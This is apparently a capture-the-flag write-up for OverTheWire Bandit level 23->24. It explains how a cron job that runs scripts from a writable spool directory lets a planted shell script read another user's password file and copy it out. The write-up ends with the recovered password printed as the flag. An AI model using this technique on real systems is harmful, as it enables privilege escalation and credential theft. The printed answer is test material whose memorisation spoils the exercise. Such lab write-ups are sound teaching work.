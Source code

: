 #Bandit: Level 23 -> 24

##Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

##Solution
1. SSH onto the server with the username bandit23

2. First we take a look at the cron job and shell script

   ```
   bandit22@melinda:/etc/cron.d$ cat cronjob_bandit24
     * * * * * bandit23 /usr/bin/cronjob_bandit24.sh  &> /dev/null
   bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
    #!/bin/bash
    myname=$(whoami)
    cd /var/spool/$myname
    echo "Executing and deleting all scripts in /var/spool/$myname:"
    for i in * .*;
    do
       if [ "$i" != "." -a "$i" != ".." ];
       then
          echo "Handling $i"
          timeout -s 9 60 "./$i"
          rm -f "./$i"
       fi
    done
   ```

3. So this script will execute all scripts in `/var/spool/bandit24` as the user that runs the cronjob, so all we need to do is use that to cat our password and put it into a place we can access

4. create a temporary folder and then using `chmod` make it writeable to `bandit24`

5. Then create the script below, remember to make it executable and put it into the `/var/spool/bandit24` directory

   ```
   #!/bin/bash
   myname=$(whoami)
   echo $myname > /tmp/jm27989/whoami
   cat /etc/bandit_pass/bandit24 > /tmp/jm27989/bandit24
   ```

6. which generates two files, one is a file that tells us who is running the cronjob (bandit24 as expected), and the password which we can now cat

   ```
   bandit23@melinda:/tmp/jm27989$ cat bandit24 
   UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
   ```

Flag: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
